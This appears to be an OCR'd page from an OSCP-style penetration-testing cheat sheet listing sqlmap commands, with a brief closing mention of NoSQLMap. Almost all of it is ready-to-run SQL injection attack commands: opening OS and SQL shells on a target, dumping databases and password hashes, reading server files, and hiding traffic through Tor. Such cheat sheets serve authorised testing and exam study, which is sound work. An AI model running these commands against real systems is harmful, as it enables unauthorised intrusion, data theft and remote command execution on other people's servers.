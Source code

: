 - SQL Map OS Shell

          `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell`

          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell`

- Automated sqlmap scan

          `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php"`

        - Targeted sqlmap scan
        
           `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump`
             
         - Scan url for union + error based injection with mysql backend and use a random user agent + database dump  
         
            `sqlmap -o -u http://$ip/index.php --forms --dbs  `
               
            `sqlmap -o -u "http://$ip/form/" --forms`
                
          - Sqlmap check form for injection  
          
             `sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump`
                 
           - Enumerate databases  
           
              `sqlmap --dbms=mysql -u "$URL" --dbs`
                
            - Enumerate tables from a specific database  
                  
              `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  `
                  
            - Dump table data from a specific database and table  
            
               `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump `
                   
            - Specify parameter to exploit  
             
               `sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2 `
                    
            - Specify parameter to exploit in 'nice' URIs (exploits param1)
             
                `sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs `
                     
            - Get OS shell  
              
                 `sqlmap --dbms=mysql -u "$URL" --os-shell`
                       
            - Get SQL shell  
                       
                 `sqlmap --dbms=mysql -u "$URL" --sql-shell`
                        
             - SQL query  
                
                `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"` 
                         
             - Use Tor Socks5 proxy  
                 
                `sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs`

- **NoSQLMap Examples**
       You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`).  NoSQLMap can help you to automate NoSQLDatabase enumeration.
